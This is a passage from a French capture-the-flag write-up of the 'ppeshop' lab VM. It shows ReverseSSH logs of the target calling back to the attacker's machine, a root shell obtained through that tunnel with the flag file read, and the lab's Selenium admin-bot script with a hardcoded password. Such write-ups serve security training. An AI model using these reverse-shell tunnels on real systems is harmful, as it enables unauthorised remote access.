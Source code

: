 ```plain
2021/12/22 21:54:42 Successful authentication with password from reverse@192.168.56.116:34922
2021/12/22 21:54:42 Attempt to bind at 127.0.0.1:8888 granted
2021/12/22 21:54:42 New connection from 192.168.56.116:34922: root on ppeshop reachable via 127.0.0.1:8888
```

Et enfin (le mot de passe demandé est celui par défaut de ReverseSSH) :  

```plain
$ ssh -p 8888 127.0.0.1
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
RSA key fingerprint is SHA256:3qx1PQUheJi+syVb+vtVrdyjSlIAd7hTZnPyV4kyZYg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (RSA) to the list of known hosts.
devloop@127.0.0.1's password: 
[root@ppeshop moneygrabber]# id
uid=0(root) gid=1000(moneygrabber) groups=1000(moneygrabber)
[root@ppeshop moneygrabber]# cd /root
[root@ppeshop root]# ls
anaconda-ks.cfg  flag3.txt  ghostdriver.log
[root@ppeshop root]# cat flag3.txt 
y2zmGeGjrA4dbDj4wBWr

[root@ppeshop scripts]# crontab -l
@reboot python2 /scripts/xss.py
```

De l'autre côté du miroir
-------------------------

Voici le script Selenium qui était utilisé :  

```python
#!/usr/bin/python2
import time
from selenium import webdriver
time.sleep(120)
driver = webdriver.PhantomJS(port=443)
driver.get("http://localhost/_admin/dist/index.php")
driver.find_element_by_id('username').send_keys('admin')
driver.find_element_by_id('password').send_keys('VerySecureUnhackablePassword!')
driver.find_element_by_id('username').submit()

while 1:
    driver.get("http://localhost/_admin/dist/index.php")
    html_source = driver.page_source
    time.sleep(15)

driver.quit()
```

Le problème de conception sur ce CTF c'est que si on bourrine le formulaire de paiement sur le site alors la page requêtée par PhantomJS devient énorme et ce dernier se fait tuer en Out Of Memory. Heureusement le message d'erreur généré par le kernel se voit dans le terminal de la VM et on peut alors la reconfigurer pour ajouter de la RAM mais ce type de problème peut suffire à pourrir un CTF.  
